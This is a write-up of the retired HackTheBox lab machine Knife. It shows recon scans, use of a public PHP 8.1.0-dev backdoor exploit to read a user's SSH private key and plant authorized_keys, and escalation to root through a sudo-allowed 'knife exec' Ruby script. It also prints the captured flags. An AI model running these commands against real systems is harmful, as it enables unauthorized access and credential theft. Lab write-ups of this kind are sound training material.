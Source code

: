 Title:HTB: Knfie
Date: 08-29-2021 10:30
category:security
tags:security, boot2root, HTB, linux, php, chef
meta:security, boot2root, HTB, linux, php, chef

<img class="align-left" src="/media/2021.08/knife_card.png" alt="Knife card" width="262">

This is a writeup about a retired HacktheBox machine:
[Knife](https://www.hackthebox.eu/home/machines/profile/347) published on
May 22 2021 by
[MrKN16H](https://www.hackthebox.eu/home/users/profile/98767)
This box is classified as an easy machine. This box implies a PHP dev backdoor
and a misconfigured `sudo` permission for `knife` a
[chef](https://docs.chef.io/) utility.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. Only port 22 (SSH) and port 80 (HTTP) are open.

    :::text
    # Nmap 7.91 scan initiated Tue May 25 12:12:19 2021 as: nmap -sSV -p- -A -oN notes.md 10.129.151.250
    Nmap scan report for 10.129.151.250
    Host is up (0.012s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
    |   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
    |_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title:  Emergent Medical Idea
    <SNIP>

## Web

On the port 80 there is a simple website with no real content. Running `nikto`
on it show that the PHP version used is 8.1.0-dev.

    :::text
    └─$ nikto -h http://10.129.151.250/
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          10.129.151.250
    + Target Hostname:    10.129.151.250
    + Target Port:        80
    + Start Time:         2021-05-25 12:15:53 (GMT-4)
    ---------------------------------------------------------------------------
    + Server: Apache/2.4.41 (Ubuntu)
    + Retrieved x-powered-by header: PHP/8.1.0-dev
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + No CGI Directories found (use '-C all' to force check all possible dirs)
    + Web Server returns a valid response with junk HTTP methods, this may cause false positives.

This specific 8.1.0-dev PHP version is vulnerable to a [backdoor RCE](https://packetstormsecurity.com/files/162749/php_8.1.0-dev.py.txt)

Using the exploit script we can directly execute command on the system. A few
enumeration show that we are running command as `james` and we can grab his SSH
private key.

`└─$ python3 rce.py -u http://10.129.151.250/ -c 'cat  /home/james/.ssh/id_rsa' > id_rsa`

A quick edit allows us remove the "result" from the python script then we use
`chmod 600` to fix the SSH key right and avoid the permission warning. Then we
add the key to the `authorized_keys` file still using the PHP backdoor.

`└─$ python3 rce.py -u http://10.129.151.250/ -c 'cat  /home/james/.ssh/id_rsa.pub > /home/james/.ssh/authorized_keys'`

We can then connect as `james` on the box and grab the user flag.

    :::text
    └─$ ssh james@10.129.151.250 -i id_rsa
    <SNIP>
    james@knife:~$ cat user.txt
    39169b04d1705adad09a0ba6aafe5363

# Root

We look at our permission on the box and found that we can run `/usr/bin/knife`
on the box. This is a symlink to a ruby script used by
[chef](https://docs.chef.io/).

    :::text
    james@knife:~$ sudo -l
    Matching Defaults entries for james on knife:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User james may run the following commands on knife:
        (root) NOPASSWD: /usr/bin/knife

Look at the [Knife documentation](https://docs.chef.io/workstation/knife_exec/)
we found that `knife exec` can execute ruby scripts. We execute the `id` command
to validate that we are running as root and then create the `.ssh` folder and
add james' SSH key to the `authorized_keys`.

    :::text
    james@knife:~$ cat h.rb
    puts "Hello World"
    system "id"
    system "mkdir -p /root/.ssh/"
    system "cp /home/james/.ssh/authorized_keys /root/.ssh/"

    james@knife:~$ sudo /usr/bin/knife exec h.rb -VVV
    Hello World
    uid=0(root) gid=0(root) groups=0(root)

We can then connect as root on the box (either from our kali or directly from the box)
and grab the root flag.

    :::text
    └─$ ssh root@10.129.151.250 -i id_rsa
    <SNIP>
    root@knife:~# cat root.txt
    9c158f53231321d8fdf47e3f431b0a77

# Wrapping up

A really easy box perfect for new comers.
